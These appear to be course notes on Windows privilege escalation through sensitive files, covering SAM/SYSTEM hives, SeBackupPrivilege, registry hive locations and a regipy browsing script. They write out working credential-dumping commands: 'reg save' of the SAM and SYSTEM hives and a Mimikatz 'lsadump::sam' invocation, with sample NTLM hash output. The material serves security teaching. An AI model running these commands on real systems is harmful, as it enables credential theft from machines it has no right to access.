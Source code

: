 ## Security Accounts Manager (SAM + SYSTEM)

The SAM (Security Accounts Manager) file is a critical component of Windows that stores user account credentials for local accounts.

The SAM file contains various things, including:
- Usernames and password hashes
- Account Information
	- Security Identifiers (SIDs)
- Group Memberships

The SAM file is located in the directory
```powershell
C:\Windows\System32\config
```

By default it cannot be directly accessed, since it is locked by the operating system. Sometimes it is however possible to find backup copies of it.

## SAM Dump with SeBackupPrivilege

However, by having the `SeBackupPrivilege`, it is possible to create copies of the SAM and SYSTEM files.

The `SeBackupPrivilege` is a system privilege that allows users or services to back up files. Since some files are locked for various reasons, the privilege allows users or services to bypass normal file security restrictions.

It is granted to backup operators, system administrators, and trusted backup software.

Since the privilege by design allows to bypass security restrictions, it introduces a *securiry risk* to consider. The privilege should therefore be restricted to only those who stricly need it.

To assign the feature to a user, you can assign the user to the `Backup Operators`, which is a group specifically designed for users who need the `SeBackupPrivilege`.

```powershell
Add-LocalGroupMember -Group "Backup Operators" -Member "Leonardo"
```

Once we have that privilege, it is possible to copy SAM and SYSTEM as follows
```powershell
reg save hklm\sam C:\Users\Leonardo\Desktop\SAM.hive
```

```powershell
reg save hklm\system C:\Users\Leonardo\Desktop\SYSTEM.hive
```

## Mimikatz to dump LSASS Process

We can use `mimikatz` to dump the hashes saved within the Local Security Authority Subsystem Service (LSASS).

```powershell
mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

We will see something of the sort
```powershell
RID  : 000003e8 (1000)
User : Quickemu
	Hash NTLM: 2b576acbe6bcfda7294d6bd18041b8fe
...
RID  : 000003e9 (1001)
User : Leonardo
	Hash NTLM: fd3e9753bc655918982e7f9c08b4b022
```

## Registry Hives

The Windows registry is a hierarchical database structured following a tree-like data structure into `registry hives`.

Each hive is made up of multiple keys and values, and these hives are stored as files on the system.

These data sources are very useful for `threat intelligence`, as they can be used as `Indicator of Compromise` (IOC) for specific malware.

- `HKEY_CLASSES_ROOT (HKCR)`
```powershell
C:\Windows\System32\Config\Software
```

- `HKEY_LOCAL_MACHINE (HKLM)`
```powershell
C:\Windows\System32\Config\SYSTEM
```

- `HKEY_USERS (HKU)`
```powershell
C:\Windows\System32\Config\DEFAULT
```

- `HKEY_CURRENT_USER (HKCU)`
```powershell
C:\Users\<UserName>\NTUSER.DAT
```

- `HKEY_CURRENT_CONFIG (HKCC)`
```powershell
C:\Windows\System32\Config\SystemProfile
```

---

To explore the contents of a hive there is the `regipy` python package.

```powershell
python3 -m venv venv
. venv/bin/activate
pip3 install regipy
```

```python
#!/usr/bin/env python3

from regipy.registry import RegistryHive

def list_registry_keys(hive_path):
	# Load the registry hive
	hive = RegistryHive(hive_path)
	for entry in hive.recurse_subkeys(as_json=True):
		print(entry)

if __name__ == "__main__":
	list_registry_keys("./SYSTEM")
```

## Extra 

### Configuration Files

Certain location are most often used by application to store configuration files.
```powershell
%AppData%
%LocalAppData%
```

### Paging File

If paging is enabled, the system will create a `pagefile.sys` file.
```powershell
C:\pagefile.sys
```

### Hibernation File

When the hibernation feature is enabled, windows will store the content of the system's RAM into the file `hiberfil.sys` when the computer is put into hibernation.
```powershell
C:\hiberfil.sys
```

---

## References

Mimikatz: https://github.com/gentilkiwi/mimikatz

Regipy: https://github.com/mkorman90/regipy

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-05-windows-privesc-sensitive-files/content/notes.txt